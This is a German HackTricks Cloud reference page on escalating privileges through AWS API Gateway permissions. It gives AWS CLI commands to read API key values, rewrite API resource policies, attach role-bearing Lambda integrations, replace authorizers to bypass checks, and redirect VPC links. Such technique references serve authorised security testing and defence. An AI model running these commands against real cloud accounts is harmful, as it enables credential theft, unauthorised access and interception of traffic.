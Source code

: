 # AWS - Apigateway Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos sendest.

</details>
{% endhint %}

## Apigateway

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Mit dieser Berechtigung kannst du API-Schlüssel der konfigurierten APIs (pro Region) generieren.
```bash
aws --region <region> apigateway create-api-key
```
**Potenzielle Auswirkungen:** Mit dieser Technik können Sie keine Privilegien erhöhen, aber Sie könnten Zugang zu sensiblen Informationen erhalten.

### `apigateway:GET`

Mit dieser Berechtigung können Sie die generierten API-Schlüssel der konfigurierten APIs (pro Region) abrufen.
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potenzielle Auswirkungen:** Mit dieser Technik können Sie keine Privilegien erhöhen, aber Sie könnten Zugang zu sensiblen Informationen erhalten.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Mit diesen Berechtigungen ist es möglich, die Ressourcenrichtlinie einer API zu ändern, um sich selbst den Zugriff zu gewähren, sie aufzurufen und potenzielle Zugriffe, die das API-Gateway haben könnte, auszunutzen (wie das Auslösen eines anfälligen Lambda). 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potenzielle Auswirkungen:** Sie werden normalerweise nicht direkt mit dieser Technik privesc erreichen können, aber Sie könnten Zugang zu sensiblen Informationen erhalten.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Muss getestet werden
{% endhint %}

Ein Angreifer mit den Berechtigungen `apigateway:PutIntegration`, `apigateway:CreateDeployment` und `iam:PassRole` kann **eine neue Integration zu einer bestehenden API Gateway REST API mit einer Lambda-Funktion hinzufügen, die eine IAM-Rolle angehängt hat**. Der Angreifer kann dann **die Lambda-Funktion auslösen, um beliebigen Code auszuführen und möglicherweise Zugriff auf die mit der IAM-Rolle verbundenen Ressourcen zu erhalten**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf Ressourcen, die mit der IAM-Rolle der Lambda-Funktion verbunden sind.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Muss getestet werden
{% endhint %}

Ein Angreifer mit den Berechtigungen `apigateway:UpdateAuthorizer` und `apigateway:CreateDeployment` kann **einen bestehenden API Gateway-Autorisierer ändern**, um Sicherheitsüberprüfungen zu umgehen oder um beliebigen Code auszuführen, wenn API-Anfragen gestellt werden.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Umgehung von Sicherheitsprüfungen, unbefugter Zugriff auf API-Ressourcen.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Muss getestet werden
{% endhint %}

Ein Angreifer mit der Berechtigung `apigateway:UpdateVpcLink` kann **einen bestehenden VPC-Link ändern, um auf einen anderen Netzwerk-Load-Balancer zu verweisen, wodurch privater API-Verkehr möglicherweise an unbefugte oder bösartige Ressourcen umgeleitet wird**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potenzielle Auswirkungen**: Unbefugter Zugriff auf private API-Ressourcen, Abfangen oder Stören des API-Verkehrs.

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
